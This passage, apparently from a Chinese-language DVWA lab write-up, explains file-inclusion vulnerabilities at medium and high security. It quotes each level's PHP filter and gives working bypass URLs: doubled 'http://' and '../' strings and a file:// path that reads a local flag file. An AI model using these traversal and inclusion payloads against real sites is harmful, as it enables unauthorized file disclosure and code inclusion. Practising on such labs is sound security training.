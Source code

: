 这边也开启了远程包含，所以可以在后面加上网址进行访问

```
http://127.0.0.1/vulnerabilities/fi/?page=http://www.baidu.com
```



### Security Medium

看源码

```php
<?php
$file = $_GET[ 'page' ];
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );
?>
```

可以看到过滤的东西

所以尝试构造，还是上面那两个本地包含和远程包含



防护程序将`http://`换成空格，那我们尝试双写绕过

```
http://127.0.0.1/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com
```

访问成功



防护程序将`../`换成空格，那我们尝试双写绕过

```
http://127.0.0.1/vulnerabilities/fi/?page=..././..././..././..././flag.txt
```

也是绕过成功！



### Security High

直接进行文件名比对了

```php
<?php
$file = $_GET[ 'page' ];
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR: File not found!";
    exit;
}
?>
```

使用file函数进行构造

```
http://127.0.0.1/vulnerabilities/fi/?page=file://C:\Environment\phpstudy_pro\flag.txt
```
